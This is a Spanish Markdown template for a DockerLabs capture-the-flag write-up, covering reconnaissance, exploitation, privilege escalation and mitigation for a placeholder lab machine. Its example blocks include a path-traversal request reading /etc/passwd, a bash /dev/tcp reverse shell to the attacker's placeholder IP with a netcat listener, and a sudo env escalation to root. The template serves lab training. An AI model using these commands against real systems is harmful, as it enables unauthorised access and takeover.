

# 🐳 DockerLabs: [Nombre de la Máquina]

| Propiedad | Detalle |
| :--- | :--- |
| **Plataforma** | DockerLabs |
| **Dificultad** | 🟢 Fácil / 🟡 Media / 🔴 Difícil |
| **OS** | Linux / Windows |
| **IP de la Máquina** | `10.10.X.X` |
| **Fecha de resolución** | 2026-09-02 |

---

## 📝 Descripción
Breve introducción sobre la máquina o el contexto del reto. 
*Ejemplo: Máquina enfocada en la explotación de un servicio web vulnerable y posterior escalada de privilegios mediante abuso de permisos SUDO.*

---

## 🔍 1. Fase de Reconocimiento y Enumeración

### Escaneo de Puertos (`nmap`)
Lanzamos un escaneo inicial para identificar los puertos abiertos y los servicios activos en la máquina objetivo:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.X.X -oN allPorts
```

**Resultados del escaneo:**
* **Puerto 22/TCP**: SSH (OpenSSH...)
* **Puerto 80/TCP**: HTTP (Apache/Nginx...)

*(Opcional) Escaneo profundo de servicios:*
```bash
sudo nmap -sCV -p 22,80 10.10.X.X -oN targeted
```

### Enumeración Web (Puerto 80)
Al inspeccionar el sitio web, nos encontramos con la siguiente interfaz:

 <!-- Recuerda guardar tus capturas en una carpeta llamada img -->

Aplicamos fuzzing de directorios para buscar rutas ocultas:
```bash
gobuster dir -u http://10.10.X.X/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
```

---

## 💥 2. Fase de Explotación (Acceso Inicial)

### Vector de Ataque
Describir cómo se aprovecha la vulnerabilidad encontrada (ej. *Local File Inclusion*, *RCE*, *Credenciales por defecto*, etc.).

```http
# Ejemplo de Payload o petición vulnerable utilizada
http://10.10.X.X/index.php?file=../../../../etc/passwd
```

### Intrusión (Reverse Shell)
Logramos ejecutar comandos en el sistema y establecemos una *reverse shell* hacia nuestra máquina atacante:

```bash
# Comando ejecutado en la máquina víctima
bash -c 'bash -i >& /dev/tcp/10.10.X.X/4444 0>&1'
```

Ponemos nuestro *netcat* a la escucha para recibir la conexión:
```bash
nc -nlvp 4444
```

Una vez dentro, realizamos el tratamiento de la TTY para tener una consola interactiva cómoda:
```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

---

## 👑 3. Escalada de Privilegios

### Enumeración del Sistema
Analizamos el entorno buscando vectores comunes de escalada (permisos SUID, tareas Cron, capacidades, contraseñas en texto plano).

```bash
# Comprobamos privilegios de SUDO
sudo -l
```

### Explotación del Vector de Escalada
Encontrado un binario o configuración débil. Explicar cómo se abusa de ello para convertirse en `root`.

```bash
# Ejemplo de explotación
sudo /usr/bin/env /bin/sh
```

¡Ya somos **root**! 🚩

---

## 🏁 4. Conclusiones y Mitigación
* **Vulnerabilidad Principal**: Falta de sanitización en los parámetros web de entrada / Binarios con permisos SUDO mal configurados.
* **Remediación**: Actualizar los servicios vulnerables, implementar *whitelisting* en los inputs y aplicar el principio de menor privilegio retirando accesos SUDO innecesarios.

